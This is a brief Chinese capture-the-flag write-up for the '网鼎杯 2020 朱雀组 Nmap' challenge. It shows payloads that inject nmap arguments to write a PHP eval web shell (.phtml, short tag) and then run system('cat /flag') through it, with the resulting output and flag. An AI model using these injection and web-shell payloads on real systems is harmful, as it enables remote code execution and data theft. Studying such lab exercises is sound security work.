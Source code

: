 # [网鼎杯 2020 朱雀组]Nmap
![](<./img/Pasted image 20221127120248.png>)

---
首页长这样

![](<./img/Pasted image 20221127120317.png>)

---
尝试判断是否可注入（废话，显然可以
```php
localhost' #
```

![](<./img/Pasted image 20221127121511.png>)

```php
' -oG shell.php <?php eval($_GET["cmd"]);?> #
```
> Hacker...

emmm，大意了

应该是把php过滤掉了

```php
' -oG shell.phtml <? eval($_GET["cmd"]);?> #
```
> Host maybe down

```php
/shell.phtml?cmd=system('cat /flag');
```
> \# Nmap 6.47 scan initiated Sun Nov 27 04:26:32 2022 as: nmap -Pn -T4 -F --host-timeout 1000ms -oX xml/824ef -oG shell.phtml \ flag{b868b5bd-41f0-4933-97f5-930bd42b73a3}
> \#'
> \# Nmap done at Sun Nov 27 04:26:33 2022 -- 0 IP addresses (0 hosts up) scanned in 0.90 seconds

氵就完事儿了.jpg
